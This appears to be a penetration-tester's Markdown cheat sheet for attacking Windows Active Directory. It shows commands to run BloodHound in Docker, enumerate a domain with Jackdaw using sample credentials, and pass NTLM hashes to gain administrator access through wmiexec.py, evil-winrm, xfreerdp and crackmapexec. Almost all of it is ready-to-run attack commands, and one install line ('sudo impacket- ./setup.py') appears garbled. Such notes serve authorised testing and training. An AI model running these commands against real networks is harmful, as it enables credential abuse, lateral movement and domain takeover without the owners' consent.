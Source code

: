 #### Docker
# Bloodhound Container
```bash
docker run -it \
  -p 7474:7474 \
  -e DISPLAY=unix$DISPLAY \
  -v /tmp/.X11-unix:/tmp/.X11-unix \
  --device=/dev/dri:/dev/dri \
  -v $(pwd)/bh-data:/data \
  --name bloodhound belane/bloodhound
```

### Jackdaw - Open http://127.0.0.1:5000/ui for the API
```bash
git clone https://github.com/skelsec/jackdaw.git
cd jackdaw
sudo chmod +x ./setup.py
sudo impacket- ./setup.py
jackdaw auto
jackdaw --sql sqlite:///test.db enum 'ldap+ntlm-password://TEST\victim:Passw0rd!@10.10.10.2' 'smb+ntlm-password://TEST\victim:Passw0rd!@10.10.10.2'
jackdaw --sql sqlite:///test.db ldap 'ldap+ntlm-password://TEST\victim:Passw0rd!@10.10.10.2'
jackdaw --sql sqlite:///<FULL PATH TO DB> nest
```

### WMI - Pass Local Admin Hash, MUST ADD 0's AT THE BEGINNING
```bash
wmiexec.py -hashes '00000000000000000000000000000000:2b576acbe6bcfda7294d6bd18041b8fe' administrator@$ip
```

### Evil-WinRM - Pass Local Admin Hash
```bash
evil-winrm -u Administrator -H '2b576acbe6bcfda7294d6bd18041b8fe' -i $ip
```

### RDP 

#### XfreeRDP - Pass the Hash
```bash
xfreerdp /u:Administrator /pth:2b576acbe6bcfda7294d6bd18041b8fe /v:$ip
```

### Crackmapexec - Laying Waste to the Domain

#### Crackmapexec Using Hashes
```bash
crackmapexec ldap $ip -u $user -H $hash
crackmapexec smb $ip -u $user -H $hash
crackmapexec rdp $ip -u $user -H $hash
crackmapexec winrm $ip -u $user -H $hash
```
